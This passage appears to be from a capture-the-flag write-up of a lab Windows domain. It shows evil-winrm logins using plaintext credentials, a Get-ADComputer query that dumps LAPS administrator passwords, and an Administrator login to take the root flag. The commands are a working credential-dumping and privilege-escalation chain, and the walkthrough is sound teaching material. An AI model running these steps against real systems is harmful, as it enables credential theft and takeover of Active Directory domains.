 Easier way to do all LAPS password dumping is to login as svc_deploy via evlil-winrm by the following command:
`evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'`
And then executing the following command directly:
`Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` 

Admin password: `XE$M/m[)1S/Q5};833fm]LAV`

Let's login as admin via evil-winrm again:
`evil-winrm -i 10.10.11.152 -u Administrator -p 'XE$M/m[)1S/Q5};833fm]LAV' -S`

After logging in, we found the root flag in: `C:\Users\TRX\Desktop>root.txt`